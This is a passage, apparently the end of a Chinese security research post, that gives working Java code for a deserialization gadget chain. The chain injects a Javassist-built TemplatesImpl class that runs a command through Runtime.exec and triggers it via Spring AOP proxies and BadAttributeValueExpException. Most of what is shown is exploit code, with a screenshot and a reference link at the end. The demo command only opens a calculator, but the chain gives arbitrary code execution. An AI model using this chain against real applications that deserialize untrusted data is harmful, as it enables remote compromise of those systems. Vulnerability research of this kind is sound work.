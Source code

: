 ```
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"open -na Calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Util.setFieldValue(templates, "_bytecodes", bytes);
        Util.setFieldValue(templates, "_name", "GSBP");
        Util.setFieldValue(templates, "_tfactory", null);
        Method method=templates.getClass().getMethod("newTransformer");//获取newTransformer方法

        SingletonAspectInstanceFactory factory = new SingletonAspectInstanceFactory(templates);
        AspectJAroundAdvice advice = new AspectJAroundAdvice(method,new AspectJExpressionPointcut(),factory);
        Proxy proxy1 = (Proxy) getAProxy(advice,Advice.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);
        Util.setFieldValue(badAttributeValueExpException, "val", proxy1);
        Util.deserialize(Util.serialize(badAttributeValueExpException));

    }
    public static Object getBProxy(Object obj,Class[] clazzs) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
        return proxy;
    }
    public static Object getAProxy(Object obj,Class<?> clazz) throws Exception
    {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        AbstractAspectJAdvice advice = (AbstractAspectJAdvice) obj;

        DefaultIntroductionAdvisor advisor = new DefaultIntroductionAdvisor((Advice) getBProxy(advice, new Class[]{MethodInterceptor.class, Advice.class}));
        advisedSupport.addAdvisor(advisor);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{clazz}, handler);
        return proxy;
    }

}
```

![image-20250123233035882](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250123233035882.png)

## 参考文章

https://mp.weixin.qq.com/s/oQ1mFohc332v8U1yA7RaMQ